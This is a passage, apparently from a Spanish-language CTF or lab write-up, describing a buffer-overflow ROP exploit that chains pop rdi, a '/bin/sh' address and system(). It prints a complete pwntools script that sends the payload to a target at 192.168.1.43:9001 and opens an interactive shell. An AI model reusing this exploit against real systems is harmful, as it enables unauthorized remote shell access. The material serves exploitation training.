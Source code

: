 `payload = offset*A + pop_rdi + sh_addr + system_addr` 

### Explotación
Por último para poder enviar ese payload debo compartir el binario a traves de algún puerto en la máquina víctima, utilizaré un binario estatico de socat para redireccionar el trafico hacia el programa.

```python
#!/usr/bin/python3

import signal
import sys
from pwn import *
def def_handler(sig,frame):
    print("\n\n[-] Saliendo ......")
    sys.exit(1)

signal.signal(signal.SIGINT,def_handler)
if __name__ == "__main__":
    offset = 120
    junk = b"A"*offset
    pop_rdi = p64(0x4015dd)
    sh_addr = p64(0x4031f5)
    system_addr = p64(0x40124f)
    payload = junk + pop_rdi + sh_addr +system_addr

    try:

        p = remote("192.168.1.43",9001)
    except Exception as e:
        log.error(str(e))

    p.sendline(payload)
    p.interactive()
```
{: file="exploit.py" }

